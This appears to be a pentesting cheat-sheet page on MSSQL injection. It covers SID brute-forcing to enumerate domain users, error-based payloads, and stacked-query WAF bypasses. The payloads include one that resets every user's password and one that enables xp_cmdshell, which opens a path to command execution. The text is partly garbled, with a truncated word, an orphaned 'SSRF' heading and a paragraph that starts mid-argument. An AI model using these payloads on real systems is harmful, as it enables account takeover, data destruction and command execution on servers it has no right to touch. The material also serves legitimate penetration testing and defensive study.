 # MSSQL Injection

### Active Directory enumeration <a href="#active-directory-enumeration" id="active-directory-enumeration"></a>

It may be possible to **enumerate domain users via SQL injection inside an MSSQL** server using the following MSSQL functions:

* <mark style="color:red;">**`SELECT DEFAULT_DOMAIN()`**</mark>: Get the current domain name.
* <mark style="color:red;">**`master.dbo.fn_varbintohexstr(SUSER_SID('DOMAIN\Administrator'))`**</mark><mark style="color:red;">:</mark> If you know the name of the domain (_DOMAIN_ in this example) this function will return the **SID of the user Administrator** in hex format. This will look like, note how the **last 4 bytes** are the number **500** in **big-endian** format, which is the **common ID of the user administrator**. This function will allow you to **know the ID of the domain** (all the bytes except of the last 4).
* **`SUSER_SNAME(0x01050000000[...]0000e803)`** : This function will return the **username of the ID indicated** (if any), in this case, **0000e803** in big-endian == **1000** (usually this is the ID of the first regular user ID created). Then you can imagine that you can brute-force user IDs from 1000 to 2000 and probably get all the usernames of the users of the domain. For example, using a function like the following one:

```bash
def get_sid(n):
	domain = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
	user = struct.pack('<I', int(n))
	user = user.hex()
	return f"{domain}{user}" #if n=1000, get SID of the user with ID 1000
```

### **Alternative Error-Based vectors** <a href="#alternative-error-based-vectors" id="alternative-error-based-vectors"></a>

ome examples of such functions:

* `SUSER_NAME()`
* `USER_NAME()`
* `PERMISSIONS()`
* `DB_NAME()`
* `FILE_NAME()`
* `TYPE_NAME()`
* `COL_NAME()`

Example use of function `USER_NAME()`:

{% code overflow="wrap" %}
```bash
https://vuln.app/getItem?id=1'%2buser_name(@@version)--
```
{% endcode %}



<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

SSRF

#### <mark style="color:red;">`xp_cmdshell`</mark> <a href="#master-xp-cmdshell" id="master-xp-cmdshell"></a>

Obviously you could also use **`xp_cmdshell`** to **execute** something that triggers a **SSRF**. For more info **read the relevant section** in the page:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server" %}

Therefore it could be possible to bypass different WAFs that doesn't consider this form of stacking queries. For example:

Copy

{% code overflow="wrap" %}
```sql
# Adding a useless exec() at the end and making the WAF think this isn't a valid querie
admina'union select 1,'admin','testtest123'exec('select 1')--
## This will be:
SELECT id, username, password FROM users WHERE username = 'admina'union select 1,'admin','testtest123'
exec('select 1')--'

# Using weirdly built queries
admin'exec('update[users]set[password]=''a''')--
## This will be:
SELECT id, username, password FROM users WHERE username = 'admin'
exec('update[users]set[password]=''a''')--'

# Or enabling xp_cmdshell
admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
## This will be
select * from users where username = ' admin'
exec('sp_configure''show advanced option'',''1''reconfigure')
exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
```
{% endcode %}

### References <a href="#references" id="references"></a>

* [https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)
* [https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/)
